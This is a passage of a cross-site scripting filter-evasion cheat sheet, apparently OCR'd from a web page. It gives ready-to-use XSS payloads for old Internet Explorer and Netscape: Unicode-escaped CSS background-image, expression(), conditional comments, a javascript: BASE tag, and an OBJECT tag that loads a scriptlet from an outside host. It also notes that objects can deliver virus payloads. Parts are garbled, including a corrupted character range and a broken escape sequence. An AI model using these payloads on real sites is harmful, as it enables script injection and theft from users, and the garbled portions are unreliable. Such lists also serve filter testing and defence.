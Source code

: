 DIV Background-image with Unicoded XSS Exploit
This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

```js
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006
c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```
DIV Background-image Plus Extra Characters
Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```py
<...DI..V ST...YLE=..."ba..ck...gro..und-ima....ge: ur...l(ja...va...scr...ipt.:.ale...rt('X...SS'))">
```

DIV Expression
A variant of this was effective against a real world cross site scripting filter using a newline between the colon and “expression”:

```js
<DIV STYLE="width: expression(alert('XSS'));">
```

Downlevel-Hidden Block
Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn’t do the job:

```js
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>

<![endif]-->
```
BASE Tag
Works in IE and Netscape 8.1 in safe mode. You need the // to comment out the next characters so you won’t get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like images/image.jpg rather than full paths. If the path includes a leading forward slash like /images/image.jpg you can remove one slash from this vector (as long as there are two to begin the comment this will work):

```js
<BASE HREF="javascript:alert('XSS');//">
```

OBJECT Tag
If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:

```js
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

